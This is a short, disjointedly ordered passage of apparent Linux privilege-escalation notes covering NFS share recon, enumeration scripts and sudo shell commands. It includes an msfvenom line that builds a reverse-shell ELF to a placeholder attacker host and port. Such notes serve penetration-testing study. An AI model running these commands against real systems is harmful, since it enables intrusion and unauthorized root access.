 Compile using:

	gcc <filename.c	-o <name	

## Msfvenom

	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf shell.elf

# Recon
## Automatic Tools
### NFS
NFS (Network File System) is a popular distributed file system.

NFS shares are configured in the /etc/exports file. Remote users can mount shares, access, create, modify files.

By default, created files inherit the remote user’s id and group id (as owner and group respectively), even if they don’t exist on the NFS server.

- Similar Nmap script:

		nmap –sV –script=nfs-showmount <target>

- Mount an NFS share:

		mount -o rw,vers=2 <target>:<share><local_directory>

# System Enumeration
## Automatic Tools
### LSE.sh

	./lse.sh
	./lse.sh -l 1 -i

-l : to get more information. 1 is for more and 2 is much more
-i : to avoid the script asking for the user password

### LINUX EXPLOIT SUGGESTER

	./linux-exploit-suggester-2.pl -k 2.6

-k: kernel version

## MANUAL ENUMERATION
### SUDO

	sudo /bin/bash
	sudo -s
	sudo -i
	sudo -l
